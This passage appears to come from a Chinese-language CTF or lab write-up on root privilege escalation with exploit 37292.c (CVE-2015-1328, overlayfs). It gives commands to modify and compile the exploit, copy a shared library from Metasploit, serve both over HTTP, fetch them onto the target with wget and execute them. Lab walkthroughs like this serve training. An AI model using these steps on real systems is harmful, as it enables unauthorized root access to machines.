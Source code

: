 ```C
// 37292.c 注释掉这部分代码
/*
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
*/
```
编译成二进制文件 `ofs` 
```Shell
gcc -o ofs 37292.c
```
定位共享库
```Shell
locate ofs-lib.so
# /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so

# 复制到当前目录
cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so .
```
启动http服务
```Shell
python3 -m http.server 7331
```
靶机上下载二进制文件和共享库
```Shell
wget http://192.168.1.26:7331/ofs
wget http://192.168.1.26:7331/ofs-lib.so
```
将这两个文件移动到 `/tmp` 目录下运行
```Shell
mv ./ofs* /tmp/
cd /tmp/
chmod +x ofs
./ofs
```
提权成功